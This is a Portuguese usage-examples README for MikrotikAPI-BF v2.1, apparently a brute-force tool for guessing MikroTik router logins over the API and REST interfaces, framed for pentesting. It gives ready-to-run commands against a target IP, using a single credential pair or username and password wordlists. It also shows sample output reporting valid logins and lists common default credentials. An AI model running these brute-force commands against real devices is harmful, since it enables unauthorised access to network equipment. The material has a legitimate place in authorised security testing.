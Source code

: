 # MikrotikAPI-BF v2.1 - Exemplos de Uso

## 📋 Índice

1. [Exemplos Básicos](#exemplos-básicos)
2. [Exemplos Avançados](#exemplos-avançados)
3. [Cenários de Pentesting](#cenários-de-pentesting)
4. [Configurações Específicas](#configurações-específicas)
5. [Troubleshooting](#troubleshooting)

## 🚀 Exemplos Básicos

### 1. Teste Simples com Credenciais Únicas

```bash
# Teste básico com usuário e senha únicos
python mikrotikapi-bf-v2.1.py -t 192.168.1.1 -U admin -P 123456
```

**Saída esperada:**
```
[INFO] Starting MikrotikAPI-BF v2.1
[INFO] Target: 192.168.1.1
[INFO] Testing credentials: admin:123456
[SUCCESS] [API] admin:123456
[SUCCESS] [REST] admin:123456
[INFO] Found 1 valid credential(s)
[INFO] Exporting results...
```

### 2. Teste com Wordlists

```bash
# Teste com wordlists de usuários e senhas
python mikrotikapi-bf-v2.1.py -t 192.168.1.1 -u wordlists/users.lst -p wordlists/passwords.lst
```

**Estrutura das wordlists:**
```
# wordlists/users.lst
admin
user
manager
administrator
root

# wordlists/passwords.lst
123456
password
admin
12345
mikrotik
```
